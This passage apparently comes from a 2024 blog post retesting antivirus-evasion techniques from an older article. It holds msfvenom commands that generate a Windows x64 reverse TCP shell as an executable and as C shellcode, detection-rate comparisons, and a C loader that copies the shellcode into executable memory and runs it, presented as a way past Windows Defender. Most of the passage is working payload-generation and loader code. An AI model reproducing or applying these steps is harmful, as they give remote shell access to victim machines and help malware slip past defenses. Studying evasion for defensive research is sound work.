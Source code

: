 However, I was sadly disappointed by the results when I followed through the same steps. Let's try out these techniques today, in 2024.

```bash
┌──(kali㉿kali)-[~/bruh]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f exe > implant_x64.exe   
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

The original article got: 48/68 or **70.6%** detections.

![msf1](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LN_AaNCmLBXOjQbjcTg%2F-LN_K0T7sNTDWSbmUIsm%2Fmsf-templates-default-payload.png?alt=media&token=db1f1a48-08a2-4919-ae2d-9c87fc815e92)

My results were: 58/72 or **80.6%** detections

![msf1](https://i.gyazo.com/07879cd9e2060a08b9bab50165a971bc.png)

It doesn't seem too large of a difference so far, let's move all the way to the techniques that evaded Windows Defender at the time.

### Windows Defender? I barely know 'er

The article used a custom shellcode loader that casted the start address of the shellcode to a function, and called the function to execute the shellcode.

```bash
┌──(kali㉿kali)-[~/bruh]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f c                    
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of c file: 1963 bytes
unsigned char buf[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"

[... SNIP ...]

"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
```


```c 
#include <windows.h>
unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
	[... SNIP ...]
    "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

int main() {
    void * exec = VirtualAlloc( 0, sizeof( buf ), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );
    RtlMoveMemory( exec, buf, sizeof( buf ) );
    ( (void ( * )())exec )();
    return 0;
}
```
